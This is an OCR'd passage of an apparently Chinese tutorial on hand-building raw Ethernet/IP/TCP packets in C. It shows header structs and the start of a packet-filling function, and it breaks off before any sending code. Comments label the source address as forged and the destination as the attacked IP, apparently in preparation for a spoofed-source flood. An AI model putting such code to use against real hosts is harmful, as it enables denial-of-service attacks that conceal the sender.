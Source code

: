    ```c
   typedef struct __ip_header
   {
   	u8 versionAndHeader;					//4位首部长度，和4位IP版本号
   	u8 serviceType;						//8位类型服务
   	u16 totalLen;							//16位总长度
   	u16 identification;						//16位标识,用于分片后合体
   	u16 flagAndFragPart;					//3位标志位（如SYN,ACK,等等)+13位片偏移
   	u8 ttl;									//8位生存时间TTL
   	u8 hiProtovolType;						//8位协议(TCP,UDP)
   	u16 headerCheckSum;						//16位ip首部效验和
   	u32 srcIpAddr;							//32位伪造IP地址
   	u32 dstIpAddr;							//32位攻击的ip地址
   } IP_HEADER;
   
   
   //TCP数据包首部
   typedef struct __tcp_header 
   {
   	u16 srcPort;					    //16位源端口号
   	u16 dstPort;					    //16位目的端口号
   	u32 seqNumber;					    //32位序列号
   	u32 ackNumber;						//32位确认号
   	u8 headLen;						//4位首部长度(数据偏移)+6位保留字中的前4位
   	u8 flag;							//6位保留字中的后2位+6位标志位
   	u16 wndSize;						//16位窗口大小
   	u16 checkSum;						//16位效验和
   	u16 uragentPtr;						//16位紧急数据偏移量
   }TCP_HEADER;
   
   
   //这是TCP的伪报头，在计算TCP的校验和时需要包含
   typedef struct __psd_tcp_header
   {
   	u32 srcIpAddr;			//32位源IP地址
   	u32 dstIpAddr;			//32位目的IP地址
   	u8 padding;           //8位用0填充
   	u8 protocol;          //8位协议号
   	u16 tcpLen;			    //16位TCP包长度
   } PSD_TCP_HEADER;
   
   ```

2. 定义一个足够大的字符数组，用于作为包的载体发送；定义一个封包的函数，用于在载体中填充固定的数据（动态数据另外填充）。

   ```c
   	u8 packet[1024];				//在此处填充封装包的数据
   	u8 checkBuff[128];		//用于作为校验和的载体
   
   /* 填充固定数据 */
   int pktbuild(char* packet)
   {
   	//帧首部数据填充
   	ETH_HEADER ethHeader;
   	memset(&ethHeader, 0, sizeof ethHeader);
   	memcpy(ethHeader.dstMacAddr, dstMAC, 6);
   	memcpy(ethHeader.srcMacAddr, srcMAC, 6);
   	ethHeader.ethernetType = htons(0x0800);
   
   	//IP包首部数据填充
   	IP_HEADER ipHeader;
   	memset(&ipHeader, 0, sizeof ipHeader);		
   	ipHeader.versionAndHeader = 0x45;				//版本号4 + 首部长度5
   	ipHeader.serviceType = 0x00;					// 赋值为零
   	ipHeader.totalLen = htons(40);			//ip首部加ip数据(这里是tcp首部) 总共40字节。
   ```